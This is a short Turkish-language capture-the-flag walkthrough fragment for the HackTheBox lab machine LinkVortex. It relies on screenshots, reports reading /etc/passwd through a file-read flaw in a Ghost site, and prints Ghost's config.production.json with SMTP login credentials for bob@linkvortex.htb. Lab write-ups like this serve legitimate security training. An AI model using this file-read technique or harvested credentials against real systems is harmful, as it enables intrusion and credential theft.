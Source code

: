 Google'dan kontrol ettiğimde şunu buldum (2. adres)

![Pasted image 20250119023758.png](/img/user/Pasted%20image%2020250119023758.png)

Gerekli değişiklikler

![Pasted image 20250119024210.png](/img/user/Pasted%20image%2020250119024210.png)


![Pasted image 20250119024156.png](/img/user/Pasted%20image%2020250119024156.png)

Başarıyla /etc/passwd okundu

GitHack'te bulunan bir Docker dosyası da vardı

![Pasted image 20250119024402.png](/img/user/Pasted%20image%2020250119024402.png)

Bu /var/lib/ghost/config.production.json yapılandırma dosyasını okumayı deneyin

```
file> /var/lib/ghost/config.production.json  
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}

```
